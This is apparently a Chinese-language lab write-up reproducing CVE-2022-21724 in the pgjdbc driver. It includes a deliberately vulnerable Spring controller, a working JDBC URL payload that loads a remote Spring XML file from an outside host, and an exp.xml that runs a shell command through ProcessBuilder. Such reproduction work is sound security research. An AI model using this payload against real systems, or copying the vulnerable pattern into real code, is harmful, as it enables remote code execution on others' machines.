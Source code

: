 # jdbc Postgresql Rce（CVE-2022-21724）

## 原理

近日披露了CVE-2022-21724，同样是在JDBC Connection URL可控情况下将会出现某些安全问题。

当攻击者控制 jdbc url 或属性时，使用 postgresql 库的系统将受到攻击。pgjdbc 根据通过 `authenticationPluginClassName`、`sslhostnameverifier`、`socketFactory`、`sslfactory`、`sslpasswordcallback` 连接属性提供的类名实例化插件实例。但是，驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致通过任意类加载远程代码执行。

## 环境搭建

执行如下命令启动：

```
docker-compose up -d
```

等待完全启动成功后，访问`http://your-ip:8090`

## 测试过程

漏洞代码如下:

```java
@Controller
public class Index {
    @RequestMapping(value = "/")
    @ResponseBody
    public String index(@RequestParam("jdbc") String jdbc) throws Exception {
        DriverManager.getConnection(jdbc);
        return jdbc;
    }
}
```

payload

`jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://192.168.3.106:1998/exp.xml`

exp.xml内容如下

```xml
<beans
    xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <list value-type="java.lang.String" >
                <value>touch</value>
                <value>/tmp/a.txt</value>
            </list>
        </constructor-arg>
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```



![image-20220227222301512](images/image-20220227222301512.png)



![image-20220227222425681](images/image-20220227222425681.png)
